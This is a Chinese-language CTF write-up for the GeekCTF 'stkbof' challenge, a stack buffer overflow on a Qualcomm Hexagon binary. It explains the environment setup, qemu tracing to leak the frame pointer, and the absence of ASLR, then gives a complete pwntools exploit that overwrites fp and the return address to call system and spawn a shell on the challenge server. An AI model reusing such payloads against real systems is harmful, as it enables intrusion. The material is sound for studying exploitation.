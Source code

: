 btw由于网络环境太差，灵敏度已经调很低的情况下爆出来依旧有瑕疵，最后还得靠人脑自动补全（

# stkbof

鉴定为：前戏太久，还没开始做我就已经干了

hexagon的简单栈溢出，难点在于搭环境XD  
逆向可以选择ida的python插件/ldd插件/ghidra插件，调试据说可以用高通的sdk，但是由于高通的勾使网站根本下不下来，后面采用了一些比较tricky的方式。直接运行会报错缺少ld文件，搜索得知这个ld就是给出的libc的一个软链接

需要先了解hexagon的指令集和栈结构，和arm比较相似。另外，aslr是没有的，所以我们只需事先泄露出栈地址，libc地址，就能一直使用。至于这里为什么要泄露栈地址，因为不存在pop/push，取值的操作都是基于fp的偏移进行的，也就意味着每次覆盖的fp都会成为下一次的栈帧，所以需要控制fp

不使用调试器泄露fp的一种方法是手动patch文件，直接patch出输出fp或者相关量的指令，很炫酷，需要对指令集有所理解；另一种是使用qemu的调试功能

```shell
qemu-hexagon -L libc -d in_asm,exec,cpu -dfilter 0x20400+0xc0 -strace -D /tmp/log ./chall
```

exp如下

```python
#!/usr/bin/env python3  
#-*- coding: utf-8 -*-  
from pwn import*  
import os  
  
context(os = 'linux', arch = 'i386', log_level = 'debug', terminal = ['tmux', 'new-window'])  
  
def debug(cmd = ''):  
	if len(sys.argv)!=1:  
		return  
	cmd += """  
	"""  
	gdb.attach(p, cmd)  
	pause()  
  
libcbase = 0x40810000  
gadget = 0x000204B4  
binsu = libcbase + 0x0012279  
system = libcbase + 0x000BB920  
fp = 0x4080fce0  
fp += 0x100  
  
def exp(host = "chall.geekctf.geekcon.top", port=18081, exe = "./memo1"):  
  global p  
  p = remote(host, port)  
  p.send(b'CONNECT rbxgkrrv782pg9y9:1 HTTP/1.0\r\n\r\n')  
  p.recvline()  
  
  pass  
  p.recvuntil("Do you know \"stack buffer overflow\"?\n")  
  # 0x4080fd10  
  payload = (p32(0)*2 + p32(binsu) + p32(0xffffffff) + p32(fp + 0x200) + p32(system)).ljust(0x100, b"\x90") + p32(fp - 0xf0) + p32(gadget)  
  p.send(payload)  
  
if __name__ == '__main__':  
	exp()  
	p.interactive()
```
